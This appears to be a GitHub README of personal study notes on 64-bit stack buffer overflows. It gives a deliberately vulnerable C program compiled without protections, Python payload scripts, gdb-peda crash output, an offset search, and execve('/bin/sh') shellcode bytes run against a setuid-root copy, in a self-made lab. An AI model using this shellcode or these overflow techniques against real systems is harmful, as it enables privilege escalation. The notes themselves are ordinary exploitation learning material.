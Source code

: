 # buffer-overflows
Starting with the fucking basics, *inspired by **https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/**, given to me by a person who is good at this and nice*
## Classic stack smashing 
In **64-bit**:

*Parameters to functions are passed through registers.*

*Push/pop on the stack are 8-bytes wide.*

*Pointers are 8-bytes wide.*

*Maximum canonical address size is 0x00007FFFFFFFFFFF., **the fuck***
### disabled ASLR, NX, and stack canaries, cuz we're pussies
Compile with:
```
gcc -fno-stack-protector -z execstack
```
**vulnerable source code**
```
#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}
```
*vulnerabilty lies in vuln() function **duh**, where **read** is allowed to read up to 400 characters to an 80 byte buffer*

writing the 400 bytes to overflow that shit:
```
#!/usr/bin/env python
buf = ""
buf += "A"*400

f = open("in.txt", "w")
f.write(buf)
```
*nice clean script, nice, create a file in.txt, write 400 'A's then redirect its content to **classic** binary inside gdb, well **gdb-peda**, cuz it's prettier*
```
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```
yay
```
$ gdb ./classic
gdb-peda$ r < in.txt 
Starting program: /home/lala/Desktop/classic < in.txt
Try to exec /bin/sh
Read 400 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
No shell for you :(
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x555555555210 (<__libc_csu_init>: endbr64)
RCX: 0x7ffff7ed71e7 (<__GI___libc_write+23>:    cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x5555555592a0 ("No shell for you :(\nis ", 'A' <repeats 92 times>, "\220\001\n")
RDI: 0x7ffff7fb44c0 --> 0x0 
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe2c8 ('A' <repeats 200 times>...)
RIP: 0x5555555551da (<vuln+81>: ret)
R8 : 0x14 
R9 : 0x77 ('w')
R10: 0x55555555601d --> 0x656873206f4e000a ('\n')
R11: 0x246 
R12: 0x5555555550a0 (<_start>:  endbr64)
R13: 0x7fffffffe3d0 ('A' <repeats 32 times>, "\224\346\377\377\377\177")
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5555555551cf <vuln+70>:    call   0x555555555070 <puts@plt>
   0x5555555551d4 <vuln+75>:    mov    eax,0x0
   0x5555555551d9 <vuln+80>:    leave  
=> 0x5555555551da <vuln+81>:    ret    
   0x5555555551db <main>:       endbr64 
   0x5555555551df <main+4>:     push   rbp
   0x5555555551e0 <main+5>:     mov    rbp,rsp
   0x5555555551e3 <main+8>:     sub    rsp,0x10
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe2c8 ('A' <repeats 200 times>...)
0008| 0x7fffffffe2d0 ('A' <repeats 200 times>...)
0016| 0x7fffffffe2d8 ('A' <repeats 200 times>...)
0024| 0x7fffffffe2e0 ('A' <repeats 200 times>...)
0032| 0x7fffffffe2e8 ('A' <repeats 200 times>...)
0040| 0x7fffffffe2f0 ('A' <repeats 200 times>...)
0048| 0x7fffffffe2f8 ('A' <repeats 200 times>...)
0056| 0x7fffffffe300 ('A' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00005555555551da in vuln ()
```
**RIP wasnt ovewritten, the fuck**, the *maximum address size is 0x00007FFFFFFFFFFF*, yup, needs to be ovewritten by **0x0000414141414141**, because *0x4141414141414141* raises an exception as it is a non-canonical address, therefore need to find the offset

using **cyclic pattern**
```
gdb-peda$ pattern_create 400 in.txt
Writing pattern of 400 chars to filename "in.txt"
```
run again
```
gdb-peda$ r < in.txt
.
.
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400606 in vuln ()
gdb-peda$ x/wx $rsp
0x7fffffffe478: 0x41413741
```
the cyclic pattern can be seen on the stack, find the offset
```
gdb-peda$ pattern_offset 0x41413741
1094793025 found at offset: 104
```
Updating python exploit to use offset **104**
```
#!/usr/bin/env python
from struct import *

buf = ""
buf += "A"*104                      # offset to RIP
buf += pack("<Q", 0x424242424242)   # overwrite RIP with 0x0000424242424242
buf += "C"*290                      # padding to keep payload length at 400 bytes

f = open("in.txt", "w")
f.write(buf)
```
*pack("<Q", 0x424242424242): **'Q' conversion codes are available in native mode only if the platform C compiler supports C long long***
```
gdb-peda$ r < in.txt
.
.
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000424242424242 in ?? ()
```
*RIP has been controlled **at laaaast***

Now shellcode can be written directly to stack and return to it, **27 byte long shellcode** that executes execve("/bin/sh"), stored on the stack via an env variable, and find its address on the stack
```
$ export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```
*finding address using getenvaddr **https://github.com/historypeats/getenvaddr.git***
```
$ ./getenvaddr PWN ./classic
PWN will be at 0x7ffd0fd15ed5
```
in gdb-peda
```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007ffec4389ed5 in ?? ()
```
*RIP was overwritten by the correct address*
```
$ sudo chown root classic
$ sudo chmod 4755 classic
```
But
```
$ python2.7 e.py
$ (cat in.txt ; cat) | ./classic
Try to exec /bin/sh
Read 400 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
No shell for you :(
whoami
Segmentation fault (core dumped)
```
**wtf, doesn't fucking work, nice, fuck this shit**
## FUCK 64-BIT, UGH